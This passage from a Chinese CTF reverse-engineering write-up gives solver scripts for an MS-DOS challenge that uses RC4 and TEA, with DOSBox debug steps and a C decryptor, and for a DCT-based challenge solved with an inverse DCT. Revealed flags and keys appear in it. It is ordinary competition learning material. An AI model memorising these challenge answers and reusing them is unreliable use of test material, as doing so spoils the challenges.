array[46][7] = "d83dde20"
array[46][8] = "d83dde26"
array[46][9] = "d83dde27"
array[46][10] = "d83dde1c"
array[46][11] = "d83dde25"
array[46][12] = "d83dde1f"
array[46][13] = "d83dde07"
array[46][14] = "d83dde2d"
array[46][15] = "d83dde23"
array[46][16] = "d83dde0d"
array[46][17] = "d83dde02"
array[46][18] = "d83dde2b"
array[46][19] = "d83dde14"
array[46][20] = "d83dde0e"
array[46][21] = "d83dde0d"
array[46][22] = "d83dde01"
array[46][23] = "d83dde24"
array[46][24] = "d83dde1b"
array[46][25] = "d83dde17"
array[46][26] = "d83dde20"
array[46][27] = "d83dde1b"
array[46][28] = "d83dde10"
array[46][29] = "d83dde03"
array[46][30] = "d83dde27"
array[46][31] = "d83dde2c"
array[46][32] = "d83dde17"
array[46][33] = "d83dde2f"
array[46][34] = "d83dde25"
array[46][35] = "d83dde08"
array[46][36] = "d83dde28"
array[46][37] = "d83dde13"
array[46][38] = "d83dde29"
array[46][39] = "d83dde2b"
array[46][40] = "d83dde0c"
array[46][41] = "d83dde2c"
array[46][42] = "d83dde02"
array[46][43] = "d83dde0e"
array[46][44] = "d83dde13"
array[46][45] = "d83dde27"
array[46][46] = "d83dde00"
array[46][47] = "d83dde27"
array[47][0] = "d83dde2d"
array[47][1] = "d83dde04"
array[47][2] = "d83dde10"
array[47][3] = "d83dde20"
array[47][4] = "d83dde06"
array[47][5] = "d83dde1c"
array[47][6] = "d83dde07"
array[47][7] = "d83dde2a"
array[47][8] = "d83dde17"
array[47][9] = "d83dde04"
array[47][10] = "d83dde2b"
array[47][11] = "d83dde24"
array[47][12] = "d83dde00"
array[47][13] = "d83dde08"
array[47][14] = "d83dde0d"
array[47][15] = "d83dde2c"
array[47][16] = "d83dde06"
array[47][17] = "d83dde1a"
array[47][18] = "d83dde21"
array[47][19] = "d83dde1e"
array[47][20] = "d83dde1d"
array[47][21] = "d83dde0d"
array[47][22] = "d83dde06"
array[47][23] = "d83dde1c"
array[47][24] = "d83dde09"
array[47][25] = "d83dde0b"
array[47][26] = "d83dde27"
array[47][27] = "d83dde22"
array[47][28] = "d83dde25"
array[47][29] = "d83dde2e"
array[47][30] = "d83dde20"
array[47][31] = "d83dde2e"
array[47][32] = "d83dde09"
array[47][33] = "d83dde0c"
array[47][34] = "d83dde03"
array[47][35] = "d83dde1e"
array[47][36] = "d83dde28"
array[47][37] = "d83dde14"
array[47][38] = "d83dde13"
array[47][39] = "d83dde20"
array[47][40] = "d83dde2b"
array[47][41] = "d83dde10"
array[47][42] = "d83dde21"
array[47][43] = "d83dde0e"
array[47][44] = "d83dde18"
array[47][45] = "d83dde07"
array[47][46] = "d83dde0f"
array[47][47] = "d83dde25"
number=[25588, 31114, 28727, 26722, 24948, 25135, 25480, 29029, 23025, 25775, 15411, 25423, 25202, 30031, 27380, 30734, 25054, 25109, 20741, 28568, 28802, 24591, 26063, 30940, 30375, 19411, 29573, 20845, 27232, 26743, 25779, 24986, 31498, 30978, 22945, 26563, 35012, 29994, 27016, 29535, 21342, 26573, 27569, 25408, 31567, 25503, 21385, 27207]

for i in range(48):
    for j in range(48):
        x=int(array[i][j][:4],16)
        y=int(array[i][j][4:],16)
        num = (x - 55296) * 1024 + y - 56320 + 65536 - 128512
        number[num]-=i*j

print(bytes(number))
print(b'flag{'+bytes(number)[6:-6]+b'}')

```

# RE -> OldSymbolicCode (MS-DOS逆向)

MS-DOS逆向，需要用DOSBOX进行调试去梳理逻辑

[DOSBOX安装](https://blog.csdn.net/qq_43722079/article/details/107690205)



代码主要逻辑为：

```
输入一串字符串
判断长度是否等于36,不等于则Try Again!
主要逻辑为：rc4加密,tea加密

可以根据以下指令调试
g 02cb
g 02ce
g fffb
g 0177，输出Hello!Your flag is:
g 01a8，输入flag
g 01f3
g 01fb，rc4加密函数
g 01fe，rc4加密后
g 028c，准备tea加密
g 0294，此处存放密文

rc4:密钥
hex:30 6c 64 43 6f 6d 70 75 74 65 72 53 65 63 72 65 74
key:0ldComputerSecret

tea:
round:32

si=e9de   di=a554
mov ax,di
mov cl,04
shl ax,cl  左移四位
mov dx,di
mov cl,05
shr dx,cl 右移五位
xor ax,dx

判断是tea算法加密

sum=0x9e35
key=[0x4e21,0x7065,0x656e,0x2170]

si+=di做运算
sum+=0x9e35
di+=si做运算
```

## exp

```c
#include<stdio.h>
#include<stdlib.h>

void encode(unsigned int *a1, unsigned int *a2)
{
  int x;
  unsigned __int16 i; // [rsp+8h] [rbp-18h]
  unsigned __int16 v4; // [rsp+14h] [rbp-Ch]
  unsigned __int16 v5; // [rsp+18h] [rbp-8h]
  unsigned __int16 v6;
  
  for(x=0;x<=16;x++)
  {
  	  v6 = *(a1+x*2);
	  v5 = *(a1+x*2+1);
	  v4 = 0;
	  i=0;
	  do
	  {
	  	i++;
	  	v6 += (((v5 >> 5) ^ 16 * v5) + v5) ^ (*((v4 & 3) + a2) + v4);
	  	v4 += 0x9E35;
	    v5 += (((v6 >> 5) ^ 16 * v6) + v6) ^ (*(((v4 >> 11) & 3) + a2) + v4);
	  }while(i<32);
	  *(a1+x*2) = v6;
	  *(a1+x*2+1) = v5;
//	  printf("\n0x%X\n",v4);
  }
} 

void decode(unsigned int *a1, unsigned int *a2)
{
  int x;
  unsigned __int16 i; // [rsp+8h] [rbp-18h]
  unsigned __int16 v4; // [rsp+14h] [rbp-Ch]
  unsigned __int16 v5; // [rsp+18h] [rbp-8h]
  unsigned __int16 v6;
  
  for(x=0;x<=16;x++)
  {
  	  v6 = *(a1+x*2);
	  v5 = *(a1+x*2+1);
	  v4 = 0xC6A0;
	  i=0;
	  do
	  {
	  	i++;
	  	v5 -= (((v6 >> 5) ^ 16 * v6) + v6) ^ (*(((v4 >> 11) & 3) + a2) + v4);
	  	v4 -= 0x9E35;
	  	v6 -= (((v5 >> 5) ^ 16 * v5) + v5) ^ (*((v4 & 3) + a2) + v4);
	  }while(i<32);
	  *(a1+x*2) = v6;
	  *(a1+x*2+1) = v5;
//	  printf("\n0x%X\n",v4);
  }
} 
  
int main()
{
	unsigned int v[18]={0xE3D8,0x97AD,0x0DB4,0xA0A5,0x63E3,0x439C,0x9BC9,0x2685,0x2DEA,0xDF95,0xB288,0x6F18,0x80F3,0xD2CA,0xFF0D,0x5B9B,0x8B65,0xEBAF};
	unsigned int key[4]={0x4e21,0x7065,0x656e,0x2170};
	int i;
	decode(v,key);
	for(i=0;i<18;i++)
	{
		printf("%.2x",v[i]&0xff);
		printf("%.2x",(v[i]&0xff00)/0x100);//dee954a5162e2effe4ad030cbd49c0cd6f495c9822e094767e74da6457b4ef4105a23439,最后rc4解密 
	}
	printf("\n");
	for(i=0;i<18;i++)
	{
		printf("0x%.4X ",v[i]);
	}
	printf("\n");
	
	encode(v,key);
	for(i=0;i<18;i++)
	{
		printf("0x%.4X ",v[i]);
	}
	system("pause");
	return 0;
}

```

然后进行rc4



# RE -> BWBA (DCT离散余弦变换)

```c
  v9 = std::vector<int>::size(a2);
  std::allocator<double>::allocator(&v8);
  std::vector<double>::vector<int>(a1, (unsigned int)v9, 0LL, &v8);
  std::allocator<double>::~allocator(&v8);
  for ( i = 0; i < v9; ++i )
  {
    for ( j = 0; j < v9; ++j )
    {
      v5 = (double)*(int *)std::vector<int>::operator[](a2, j);
      v6 = cos(((double)j + 0.5) * (3.141592653589793 * (double)i) / (double)v9) * v5;
      v2 = (double *)std::vector<double>::operator[](a1, i);
      *v2 = *v2 + v6;
    }
    if ( i )
      v7 = sqrt(2.0 / (double)v9);
    else
      v7 = sqrt(1.0 / (double)v9);
    v3 = (double *)std::vector<double>::operator[](a1, i);
    *v3 = *v3 * v7;
  }
```


可以发现这是个DCT离散余弦变换,cv2库可以直接解

## exp

```
import numpy as np
import cv2

x = np.array([370.75,234.362,-58.0834,59.8212,88.8221,-30.2406,21.8316,49.9781,-33.5259,2.69675,43.5386,-30.2925,-28.0754,27.593,-2.53962,-27.1883,-5.60777,-0.263937,6.80326,8.03022,-6.34681,-0.89506,-6.80685,-13.6088,27.0958,29.8439,-21.7688,-20.6925,-13.2155,-37.0994,2.23679,37.6699,-3.5,9.85188,57.2806,13.5715,-20.7184,8.6816,3.59369,-4.5302,4.22203,-28.8166,-23.695,31.2268,6.58823,-39.9966,-20.7877,-19.7624,-22.031,16.3285,2.07557,-26.2521,16.1914,18.3976,-26.9295,3.03769,41.0412,20.2598,14.991,6.99392,-22.3752,-7.24466,8.96299,-10.4874], dtype=np.float64)
x = cv2.idct(x)
x = x.ravel()
flag=''

for i in range(len(x)):
    flag+=chr(int(round(x[i])))
print(flag)#flag{9ab488a7-5b11-1b15-04f2-c230704ecf72}


```

这段 Python 代码通过 DCT 的逆变换将已经经过 DCT 变换后的一组数据解密，并转换成以字符串形式输出。

具体地，该代码的输入为一个包含 64 个浮点数的 Numpy 数组，这个数组是经过某种 DCT 变换后得到的结果。代码首先调用 `cv2.idct()` 函数对输入的浮点数进行逆 DCT 变换，将它们恢复成原始的 64 个数值。然后，代码遍历这 64 个数值，将它们转化成整数（通过调用Python内置函数 `int()` 并四舍五入得到），并将这些整数用字符形式连接起来，得到一个字符串 `flag`。

实际上，这段代码是一个基于 DCT 的简单加密解密脚本，对于任意一组 64 个数，可以使用 DCT 对其进行加密，然后使用该脚本进行解密。注意，由于使用四舍五入将浮点数转换成整数，加密和解密不是完全精确的，但结果仍然足够接近原始输入。